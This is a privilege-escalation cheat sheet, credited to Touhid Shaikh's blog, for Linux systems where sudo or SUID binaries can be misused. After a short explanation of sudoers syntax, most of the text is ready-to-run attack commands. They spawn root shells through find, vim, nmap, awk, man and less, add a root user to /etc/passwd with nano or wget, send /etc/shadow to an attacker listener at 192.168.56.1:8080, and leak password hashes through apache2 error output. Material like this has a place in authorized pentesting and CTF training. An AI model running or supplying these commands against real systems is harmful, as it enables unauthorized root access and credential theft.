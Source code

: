 ---- Credits to Touhid M.Shaikh @ https://touhidshaikh.com/blog/?p=790 ----
---- Modified to add my own notes and formatting in ----


Sudoers File

    /etc/sudoers

Sudoer File Syntax.

    root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

    user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

    user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.



Find out what SUDO permissions you have. The user may run these binary files without as root without password

    sudo -l

Also possible to check all files with SUID bits set with

        find / -perm -u=s -type f 2>/dev/null
        or
        find / -perm -4000 -type f 2>/dev/null


---- Listing ----

Here is a brief list of the exploitable binaries. Exact commands are in next section

    awk
    find
    less
    man
    more
    nano
    nmap
    wget
    vim

Secondary List, not tested

sudo mount -o bind /bin/bash /bin/mount
sudo mount


$ echo $’id\ncat /etc/shadow’ > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

sudo strace -o/dev/null /bin/bash



---- Individual Commands ----



Using Find Command

    sudo find /etc/passwd -exec /bin/sh \;
    or

    sudo find /bin -name nano -exec /bin/sh \;

Using Vim Command

    sudo vim -c '!sh'
    
Using Nmap Command
Old way.

    sudo nmap --interactive
    nmap> !sh
    sh-4.1#
    Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

    echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse


Using Man Command

    sudo man man

after that press !sh and hit enter


Using Less/More Command

    sudo less /etc/hosts
    sudo more /etc/hosts
    after that press !sh and hit enter


Using awk Command

    sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

    sudo nano  /etc/passwd
    add this line:
    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash


now switch user password with password : test

    su user1
    


Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only => 

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

host that passwd file to using any web server.
On Victim Side.

    sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
    
now switch user password  : test

    su user1


Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

    sudo wget --post-file=/etc/shadow 192.168.56.1:8080
    Setup Listener on attacker : nc –lvp 8080


---- Other ----
Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

    sudo apache2 -f /etc/shadow


Output is like this :

    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration


Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.




Super long list here:

https://gtfobins.github.io/
